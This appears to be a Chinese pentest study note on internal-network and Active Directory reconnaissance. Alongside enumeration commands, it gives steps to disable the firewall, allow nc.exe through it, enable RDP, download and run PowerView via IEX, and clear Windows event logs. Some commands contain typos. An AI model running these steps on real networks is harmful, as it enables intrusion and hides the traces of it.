


# 内网渗透基石篇--内网信息收集

url：https://www.freebuf.com/articles/web/268593.html

url：https://www.freebuf.com/articles/web/269889.html


## 前言：

渗透测试的本质是信息收集，我们可以将内网信息收集大致分为5个步骤，即本机信息收集、域内信息收集、登录凭证窃取、存活主机探测、内网端口扫描。

进入内网后，首先需要对当前网络环境进行判断：

- 我是谁：当前机器的角色
- 这是哪：当前机器所处网络环境的拓扑结构2

## 一.收集本机信息

（1）手动收集信息

本机信息包括操作系统、权限、内网IP地址段、杀毒软件、端口、服务、补丁更新频率、网络连接、共享、会话等。

如果是域内主机，操作系统，应用软件，补丁、服务、杀毒软件一般都是批量安装的。

### **1.查询网络配置信息**

ipconfig/all


### 2.查询操作系统及软件的信息

systeminfo | findstr /B /C"OS 名称 " OS版本”


假如是英文版本就改为 Name 和· 版本就行

查看系统体系结构

```
echo %PROCESSOR_ARCHITECTURE%
```


### 3.查看安装的路径及版本、路径

利用wmic 命令，将结果输出到文本文件

```
wmic product get name,version
```


利用powersHELL 命令，收集软件的版本信息

```
powershell "Get-WmiObject -class Win32_Product | Select-Object -Property name,version"
```


查询本机服务信息

wmic service list brief


### 4.查询进程列表

tasklsit


wmic process brief


### 5.查看启动程序信息

wmic startup get command ,caption


### 6.查看计划任务

schtasks /query /fo LIST /v


### 7.查看主机开机时间

net statistics workstation


### 8.查询用户列表

执行如下命令，查看本机用户列表

net user

net localgroup administrator


查看当前在线用户

query user || qwinsta


### 9.列出或断开本地计算机与所连接的客户端之间的会话（需要管理员权限）

net sesssion


1. ### 查询端口列表（常用命令）

netstat -ano


### 11.查看补丁列表

systeminfo


使用wmic命令查看安装在系统的补丁

wmic qfe get Caption ,Description ,HotFixID,InstalledOn


### 12.查询本机共享列表

net share


```
wmic share get name,path,status
```


### 13.查询路由表及所有可用接口的Arp缓存表

route print


arp -a


### 14.查询防火墙相关配置

1.关闭防火墙

windows server 2003及之前的版本：

windows server 2003及之后的版本：

| `1`  | `netsh advfirewall set allprofiles state off Copy` |
| ---- | -------------------------------------------------- |
|      |                                                    |

2.查看防火墙配置

| `2`  | `netsh firewall show config Copy` |
| ---- | --------------------------------- |
|      |                                   |

3.修改防火墙配置

windwos server 2003 及之前的版本，允许指定程序全部连接

| `3`  | `netsh firewall add allowedprogram c:\nc.exe "allow nc" enable Copy` |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

windows server 2003之后的版本：

| `1`  | `允许指定程序进入,命令如下： netsh advfirewall firewall add rule name="pass nc" dir=in action=allow program="C:\nc.exe" 允许指定程序退出,命令如下： netsh advfirewall firewall add rule name="Allow nc" dir=out action=allow program="C:\nc.exe" 允许3389端口放行： netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow Copy` |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

4.自定义防火墙日志的存储位置

| `4`  | `netsh advfirewall set currentprofile logging filename "C:\windows\temp\fw.log"` |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

2.查看防火墙及配置

```
netsh firewall show config
```


### 15.查看代理配置情况

reg query "HKEY_CURRENT_USER\Software\Microsoft\windows\CurrentVersion\INternet settings"


### 16.查询并开启远程连接端口

REG QUERY “HKEY_LOcal_MACHINE\SYSTEM\CurrentControLset\Control\Terminal Server \WinStations\RDP-TCP" /v PortNUmber


```
wmic /namespace:\\root\CIMV2\TerminalServices PATH Win32_TerminalServiceSetting WHERE (__CLASS !="") CALL SetAllowTSConnections 1
```


## 2. 自动收集信息(油猴子脚本)

为了简化操作，可以创建一个脚本，在目标机器上完成流程、服务、用户账户、用户组、网络接口、硬盘信息、网络共享信息、操作系统、安装的补丁、安装的软件、启动时运行的程序、时区等信息的查询工作。

1.下载地址：http://www.fuzzysecurity.com/scripts/files/wmic_info.rar

2.点击下载文件，然后生成了out.html


### Empire 下的主机信息收集

Empire 提供了用于收集主机信息的模块。输入命令”usemodule situational_awareness/host/winenum “

## 三. 查询当前权限

### 1.查看当前权限

whoami


### 2.获取域SID

whoami/all


### 3.查询指定用户的详细信息

执行以下命令，查询当前用户的详细信息

net user xxx /domain


## 四、 判断是否存在域

### 1.使用ipconfig命令

ipconfig/all


```
nslookup hacke.testlab
```


### 2.查看系统详细信息

systeminfo


### 3.查询当前登录域及登录用户信息

net config workstation


### 4.判断主域

net time /domain


## 五、 探测域内存活主机

内网存活主机探测是内网渗透测试中不可缺少的一个环节。可在白天和晚上分别·进行探测。

### （1） 利用NetBIOS快速探测内网

NetBIOS是局域网程序使用的一种程序编辑接口（API），为程序提供了请求级别服务的统一的命令集，为局域网提供了网络及其他特殊功能。

nbtscan是一个命令行工具，用于扫描本地或远程tcp/ip网络上的开放NEtBIos名称服务器。


### （2). 利用ICMP协议快速探测内网

除了利用NEtBIos探测内网，还可以利用icmp协议探测内网。

for /L %I in (1,1,254) Do @ping -w l -n 1 192.168.1.%I findstr "TTL="


### (3) 通过arp扫描探测内网

1.arp-scan工具

arp -a


2.Empire 中的arpscan 模块

3.NIshang 中的invoke-Arpscan.ps1脚本

### (4) 通过常规TCP/UDp端口扫描内网

ScanLine是一款经典的端口扫描工具，可以在所有版本的windoWS 操作系统中使单个文件，用，体积小，仅使用单个文件，同时支持TCp/udp扫描

## 六、 扫描域内端口

端口的banner信息 ，端口上运行的服务，常见应用的默认端口

### （1）. 利用telnet命令进行扫描

Telnet 协议是tcp/ip协议族的一员，是Internet远程登陆服务的标准协议和主要形式。

首先得开启服务


```
telnet 192.168.1.1 22
```


### （2） S扫描器

S扫描是2007年古老的扫描器，不建议使用了。

### （3） Metasploit 端口扫描


### （4） powerSploit的invoke - portscan.ps1

### （5） NIshang 的Invoke-POrtScan 模块

### （6）端口banner信息

如果通过扫描发现了端口，可以使用客户端连接工具或者nc，获取服务端的Banner信息。获取Banner信息后，可以在漏洞库中查找对应cve编号的POc、exp、在exploitDB、seebug等平台上查看相关的漏洞利用工具，然后到目标系统中验证漏洞是否存在，从而有针对性地进行安全加固。

```
nc -nv 127.0.0.1 22
```


> 文件共享服务端口（21、22、69、2049、139、389）
>
> 远程连接服务端口（22、23、3389、5900、5632）
>
> Web应用服务端口（80、443、8080、7001、7002、8089、9090、4848、1352）
>
> 数据库服务端口（3306、1433、1521、5432、6379、5000、9200）
>
> 邮件服务端口（25、110、143）
>
> 网络常见协议端口（53、67、68、161）

### **2.Nmap主机扫活**


## 总结：

本文是通过阅读《内网渗透攻防》来学习内网知识，从0到1。本人也是一个萌新小白，不会的百度或者google，希望会的大佬勿喷，希望可以和大家一起遨游内网！


## 前言：

目标资产信息搜集的程度，决定渗透过程的复杂程度。
目标主机信息搜集的深度，决定后渗透权限持续把控。
渗透的本质是信息搜集，而信息搜集整理为后续的情报跟进提供了强大的保证。

## **一、收集域内基础信息**

首先得做准备工作，才可以查询。

### 1.查询域（需要启动Computer Browser服务）

win7 在计算机管理--服务--找到CB服务，然后开启；


### **2.net view /domain #** **查找域**

### **3.****查询域内所有计算机**

net view /domain ：HACKE


### **4.****查询域内所有用户组列表(默认13个)**

net group /domain


### **5.****查询所有域成员计算机列表**

net group ”domain computers“ /domain


### **6.****获取密码信息(密码设置要求)**

net accounts /domain


### **7.****获取域信任信息**

nltest /domain_trusts


## **二、查找域控制器**

### **1.****查找域控制器**

执行以下命令，可以看到，域控制器的机器名为DC

```
nltest /DCLIST:hacke
```


### **2.****查看域控制器的主机名**

```
Nslookup -type=SRV _ldap._tcp
```


### **3.****查看当前时间**

```
net time/domain
```

### 

### **4.****查看域控制器**

```
net group ”Domain Controllers” /domain
```


执行如下命令，可以看到，域控制器的机器名为"dc"

## **三、查询所有域用户列表**

### **获取域内的用户和管理员信息**

**1.** **查询所有域用户列表**

```
net user/domain
```


### **2.****获取域内用户的详细信息**

```
wmic useraccount get /all
```


### **3.****查看存在的用户**

```
dsquery user
```

### 

### **4.****查询本地管理员组用户**

```
net localgroup administrators
```


### **5.****查询域管理员用户**

```
net group " domain admins " /domain
```


### **6.****查询管理用户组**

```
net group “Enterprise Admins ”/domain
```


## **四、 定位域管理员**

内网渗透测试的需求是，获取内网中特定用户或机器的权限，进而获得特定的资源，对内网的安全性进行评估。

### **1** **域管理员定位概述**

在内网中，通常会部署大量的网络安全系统和设备，例如IDS、IPS、日志审计、安全网关、反病毒软件等。在域网络攻击测试中，获取域内的一个支点后，需要获取域管理员权限。

### **2** **常用域管理员定位工具**

> 1.psloggedon.exe.exe
>
> 3.netview.exe
>
> 4.Nmap中的NSe脚本
>
> 5.PowerVIew 脚本
>
> 6.Empire 的User_hunter模块

### **3 查找域管理进程**

### **4** **本机检查**

1）获取域管理员列表

```
net group “ Domain Admins ”/domain
```


2）收集域管理员列表

```
net group “Domain Admins " domain
```


3）收集所有活动域的会话列表

```
NetSess -h
```

这个工具，你得先下载，然后才可以使用。（github有）


4）交叉引用域管理员列表与活动会话列表


### **5.** **查询远程系统中运行的任务**

```
net group "Domain Admins " /domain
```

### 

### **6.** **扫描远程系统的NEtBios信息**

首先下载脚本文件 **GDA.bat**

然后运行:

GDA.bat -a


查询远程系统中运行的任务（不怎么灵）

```
FOR /F %i in (ips.txt) DO @echo [+] %i && @tasklist /V /S %i /U user /P password 2>NUL > output.txt && FOR /F %n in (names.txt) DO @type output.txt | findstr %n > NUL && echo [!] %n was found running a process on %i && pause
```



扫描远程系统的NetBIOS信息

```
for /F %i in (ips.txt) do @echo [+] Checking %i && nbtstat -A %i 2>NUL >nbsessions.txt && FOR /F %n in (admins.txt) DO @type nbsessions.txt | findstr /I %n > NUL && echo [!] %n was found logged into %i
```


### 7. 域管理员模拟方法简介

### 利用POwerSHell 收集域信息

1.检查Powershell状态


2.将状态修改成Unrestricted（需要管理员权限）


3.利用脚本

> 下载ps1
>
> ps1，并运行查询命令


Get-NetDomain #获取当前用户所在域的名称


Get-NetUser #获取所有用户的详细信息


Get-NetComputer #获取域内所有机器的详细信息


Get-NetShare #获取当前域内所有的共享信息


Get-ADObject #获取活动目录的对象（内容超级多）



Invoke-UserHunter #获取域用户登陆的计算机信息，以及该用户是否有本地管理员权限


Invoke-ProcessHunter #通过查询域内所有的机器进程找到特定用户


**8.域内用户和管理员的获取与定位**

### **(1)adfind or powerview**

使用adfind或者powerview导出域用户信息可以查看

\# 查看域内用户详细信息：

adfind.exe -h DNS_SERVER_IP -sc u:username #目标用户

\# 查看域用户能登录的机器(userWorkstations)

adfind.exe -h DNS_SERVER_IP -sc u:username userWorkstations

\# 查看域内所有用户详细信息：

AdFind.exe -h DNS_SERVER_IP -sc u:* > result.txt

\# 查看域内所有用户详细信息

powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');Get-NetUser -Domain yoga.com > .\test.txt"

\# 使用修改组策略的方式限制登录

powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');Invoke-EnumerateLocalAdmin > .\test.txt"

**(2)Dns****解析**

前提是拿到了域管，查看dc上面dns解析记录

dnscmd 127.0.0.1 /enumrecords yoga.com yoga.com. /type A

dnscmd 127.0.0.1 /zoneprint yoga.com >1.txt

**(3)用户目录**

查看域内所有计算机的C:\users\目录下的文件夹（登陆过该计算机的用户）

wevtutil为Windows 事件命令行实用程序，其导出的日志为evtx格式（即Windows日志本身的存储格式），可以使用Windows事件查看器分析，Crtl+F查找，或者不使用epl参数，直接重定向输出即可。 wevtutil常用的场景是清理日志。

可作为筛选分析日志的工具 ,4624(用户登录成功)，4768、4776（用户验证成功）

**(4)域控日志**

导出所有域控的登录日志，分析出用户的登录ip;

wevtutil cl application

wevtutil cl security

wevtutil cl system

wevtutil cl "windows powershell"

wevtutil qe security /q:"Event[System[(EventID=4624 or EventID=4768 or EventID=4776)]]" /f:text /rd:true /c:1 > EvtLogon.dat

wevtutil qe Security /q:"*[EventData[Data[@Name='LogonType']='10'] and EventData[Data[@Name='TargetUserName']='RcoIl'] and System[(EventID=4624) and TimeCreated[timediff(@SystemTime) &lt;= 2592000000]]]"

wevtutil qe Security /q:"*[System[(Keywords='0x8020000000000000')] and EventData[Data[@Name='SubjectUserName']='RcoIl']]" /f:text /rd:true /c:2

\# 参数说明

qe: 从日志或日志文件中查询事件；（默认xml格式显示）

Security: 指定安全事件的日志；

/q: 筛选规则，可以打开Windows事件查看器的筛选器配置筛选条件后转至XML复制筛选规则；

/f: 以text格式显示

/rd: 指定读取事件的方向

/c: 指定个数

该命令其它参数参考wevtutil /?

**(5)其他工具（可能不全）**

1、psloggendon.exe chris

2、netsess.exe \\PRIMARY

3、PVEFindADUser.exe -current需要管理员权限，可以枚举出域用户以及登录过特定系统的用户

4、netview.exe

**9.寻找域用户正在登录的主机**

检查远程机器注册表项HKEY_USERS拿到正在登录的用户SID


### **五、****内网环境的判断及拓扑架构分析**

### **1.****位置的判断**

判断机器处于网络拓扑中的某个区域，是DMZ区，办公区，核心区还是核心DB等多个位置

### **2.** **角色的判断**

假如是服务器，判断是否是Web服务器，开发测试服务器，公共服务器，文件服务器，代理服务器，DNS服务器，存储服务器等..

具体需要通过机器内的主机名、文件、网络连接等多种情况进行综合判断

主机名是最好判断的，通常Web或App是Web服务器；Dev是开发服务器；NAS是存储服务器；File或者Fileserver是文件服务器…..

通过网络连接判断也成，代理服务器可能有多个机器连接代理端口；更新服务器（WSUS）可能开放更新端口8530；DNS服务器开放53端口…..

### **3.****连通性的判断**

指的是机器能否从外面进来，能否出去。这关乎于后续的代理和木马

**4.端口的判断**

外网***开放监听端口，内网机器测试常见端口，或者直接端口扫描

常见能出去的端口：80、8080、443、53、110、123等

**5.协议的判断**

通常就是TCP、HTTP、ICMP、DNS等协议

利用adfind查询该sid用户

AdFind.exe -b cn=users,dc=yoga,dc=com -f "(objectSid:=S-1-5-21-2104426803-785674075-3345604858-1106)"

这个方法不需要很高的域用户权限，但是Server默认才会开启远程注册表，PC默认不会开启

TCP协议

nc -lvnp port

内网机器： nc ip port

DNS协议

windows:nslookup dnslog

linux: dig dnslog

HTTP协议

nc -lvnp 80(8080)

内网机器： curl ip:80(8080) / 浏览器访问

ICMP协议

由于是网络层协议，内网直接利用ping命令，然后***用tcpdump等抓包工具抓包进行验证

**判断**

- 查看网络连接判断是否有连接其他机器端口，尝试ping -n 1 -a ip
- 使用arp -a + nbtstat -A ip是否存在主机名为Proxy的主机
- IE浏览器的Internet设置（直接连接、PAC文件）

最终用Curl进行确认

| 12   | curl www.baidu.com //不通curl -x proxy-ip:port www.baidu.com  //通 |
| ---- | ------------------------------------------------------------ |
|      |                                                              |


### **六****、敏感数据的防护**

内网的核心敏感数据，不仅包括数据库、电子邮件，还包括个人数据及组织的业务数据、技术数据等。可以说，价值较高的数据基本都在内网中。

### **1** **资料、数据、文件的定位流程**

(1).定位内部人事组织结构

2.在内部人事组织结构中寻找需要监视的人员l

3.定位相关人员的机器

4.监视相关人员存放文档的位置

5.列出存放文档的服务器的目录

### **(2)** **重点核心业务机器及敏感信息防护**

1.核心业务机器

2.敏感信息和敏感文件

### **(3)** **应用与文件形式信息的防护**

### **2.** **分析域内网段划分情况及拓扑机构**

1.在掌握了内网的相关信息后，渗透测试人员可以分析目标网络的结构和安全防御策略，获取网段信息、各部门的ip地址段。

### **（1）** **基本架构**

asp+ Access+ IIs5.0/6.0+ windows sever 2003

aspx+Mysql+IIS7.0/7.5 +windows server 2008

php+Mysql+IIS

php+Mysql+Apache

php+MYsql+Nginx

jsp+mysql+nginx

jsp+mysql+Tomcat

jsp+oracle+Tomcat

### **（2）** **域内网段划分**

在判断内网环境时，首先需要分析内网ip地按址的分布情况。一般可以通过内网中的服务器、交换机等设备，以及snmp、弱口令等，获取内网网络拓扑或dns域传送的信息。

网段是怎么划分的？ 按照楼层划分网段，还是按照地区划分网段？

内网通常可分为DMZ、办公区、核心区

**1.DMz**

在实际的渗透测试中，大多数情况下，在**web环境中拿到的权限都在dmz中。这个区域不属于严格意义上的内网。如果访问控制策略配置合理，dmz就会处在从内网能够访问DMz，而从dmz访问不能进入内网的状态。

**2.****办公区**

办公区，是指日常工作区。办公区的安全防护水平通常不高，基本的防护机制大多数为杀毒软件或主机入侵检测产品。

**3.****核心区**

核心区内一般存放着企业最重要的数据、文档等信息资产（例如域控制器、核心生产机器）安全全设置也最为严格。

### **3.** **多层域结构**

1.在上述内容的基础中，可以尝试分析域结构

### **4.** **绘制内网拓扑图**

通过目标主机及所在域的各类信息，就可以绘制内网的拓扑图了。


总结：本文是通过阅读《内网渗透攻防》来学习内网知识，从0到1。本人也是一个萌新小白，不会的百度或者google，希望会的大佬勿喷，希望可以和大家一起遨游内网！